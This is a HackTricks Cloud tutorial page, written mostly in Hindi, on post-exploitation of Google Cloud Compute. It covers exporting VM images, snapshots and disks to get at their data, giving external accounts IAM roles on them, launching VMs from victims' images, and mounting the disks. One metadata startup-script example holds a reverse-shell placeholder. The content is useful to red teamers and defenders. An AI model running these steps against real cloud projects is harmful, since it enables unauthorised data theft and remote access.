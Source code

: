 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Compute और VPC (Networking) के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Export & Inspect Images locally

यह एक हमलावर को **पहले से मौजूद इमेज में निहित डेटा तक पहुँचने** या **चल रहे VMs की नई इमेज बनाने** और उनके डेटा तक पहुँचने की अनुमति देगा बिना चल रहे VM तक पहुँच के।

एक VM इमेज को एक बकेट में निर्यात करना और फिर उसे डाउनलोड करना और स्थानीय रूप से माउंट करना संभव है, कमांड के साथ: 

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

इस क्रिया को करने के लिए हमलावर को स्टोरेज बकेट पर विशेषाधिकार की आवश्यकता हो सकती है और निश्चित रूप से **cloudbuild पर विशेषाधिकार** की आवश्यकता है क्योंकि यह **सेवा** है जिसे निर्यात करने के लिए कहा जाएगा।\
इसके अलावा, इसके काम करने के लिए codebuild SA और compute SA को विशेषाधिकार प्राप्त अनुमतियों की आवश्यकता है।\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` को आवश्यकता है:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

और SA `<project-id>-compute@developer.gserviceaccount.com` को आवश्यकता है:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### स्थानीय रूप से स्नैपशॉट और डिस्क का निर्यात और निरीक्षण करें

स्नैपशॉट और डिस्क को सीधे निर्यात करना संभव नहीं है, लेकिन **एक स्नैपशॉट को डिस्क में, एक डिस्क को इमेज में** बदलना संभव है और **पिछले अनुभाग** का पालन करते हुए, उस इमेज को निर्यात करना ताकि इसे स्थानीय रूप से निरीक्षण किया जा सके।

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspect an Image creating a VM

**एक इमेज में संग्रहीत डेटा** या **चल रहे VM** के अंदर से, जहाँ एक हमलावर **ने एक इमेज बनाई है,** तक पहुँच प्राप्त करने के लक्ष्य के साथ, एक बाहरी खाते को इमेज पर पहुँच प्रदान करना संभव है:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
और फिर इससे एक नया VM बनाएं:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
यदि आप अपनी बाहरी खाता छवि के माध्यम से पहुँच नहीं दे सके, तो आप पीड़ित की परियोजना में उस छवि का उपयोग करके एक VM लॉन्च कर सकते हैं और **मेटाडेटा को एक रिवर्स शेल निष्पादित करने के लिए बना सकते हैं** छवि तक पहुँचने के लिए पैरामीटर जोड़ते हुए:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

**डिस्क या स्नैपशॉट में संग्रहीत डेटा तक पहुँचने के लक्ष्य के साथ, आप स्नैपशॉट को डिस्क में, डिस्क को इमेज में बदल सकते हैं और पिछले चरणों का पालन कर सकते हैं।**

या आप **एक बाहरी खाते को डिस्क पर पहुँच प्रदान कर सकते हैं** (यदि प्रारंभिक बिंदु एक स्नैपशॉट है तो स्नैपशॉट पर पहुँच दें या इससे एक डिस्क बनाएं):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**डिस्क** को एक उदाहरण से जोड़ें:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount the disk inside the VM:

1.  **VM में SSH करें**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **डिस्क पहचानें**: VM के अंदर पहुँचने के बाद, डिस्क उपकरणों की सूची बनाकर नई डिस्क की पहचान करें। आमतौर पर, आप इसे `/dev/sdb`, `/dev/sdc`, आदि के रूप में पाएंगे।
3. **डिस्क को फॉर्मेट और माउंट करें** (यदि यह एक नई या कच्ची डिस्क है):
*   एक माउंट पॉइंट बनाएं:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   डिस्क को माउंट करें:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

यदि आप **snapshot या disk के लिए एक बाहरी प्रोजेक्ट को एक्सेस नहीं दे सकते**, तो आपको **snapshot/disk के समान प्रोजेक्ट में एक इंस्टेंस के अंदर ये क्रियाएँ करनी पड़ सकती हैं**।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
